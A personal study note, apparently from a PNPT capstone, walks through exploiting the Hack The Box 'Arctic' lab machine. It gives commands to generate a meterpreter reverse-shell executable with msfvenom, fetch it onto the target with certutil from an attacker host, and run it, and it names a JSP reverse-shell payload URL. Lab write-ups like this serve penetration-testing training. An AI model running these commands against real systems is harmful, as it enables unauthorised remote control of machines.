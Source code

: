 Found possible exploitation [[PNPT/WPE/Capstones/Arctic - HTB/Enumeration|Enumeration]]

# Exploitation
---
- Make changes in exploit script:
	- ![[Pasted image 20250419154349.png]]
- Run the exploit:
	- `python3 exploit.py`
- ![[Pasted image 20250419154537.png]]

# Upgrading the shell
---
- In the script, they are removing the shell, let's remove that command so we can execute the shell ourselves:
	- ![[Pasted image 20250419154905.png]]
- It prints the information while running:
	- ![[Pasted image 20250419154922.png]]
- Executes payload using:
	- ![[Pasted image 20250419154952.png]]
	- `http://10.10.10.11:8500/userfiles/file/a5e2082298044320a3c211c77bedf633.jsp`
- It uses `java/jsp_shell_reverse_tcp`payload
	- ![[Pasted image 20250419155149.png]]
- Let's put all the information in msfconsole and open the url ourselves:
	- ![[Pasted image 20250419155312.png]]
- Get meterpreter shell using :
	- `msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.22 lport=443 -f exe -o rev.exe`
	- `certutil.exe -urlcache -f http://10.10.14.22/rev.exe rev.exe`
	- Set options in metasploit and `run -j`
	- Run this executable in previous shell `.\rev.exe`
	- ![[Pasted image 20250419160905.png]]
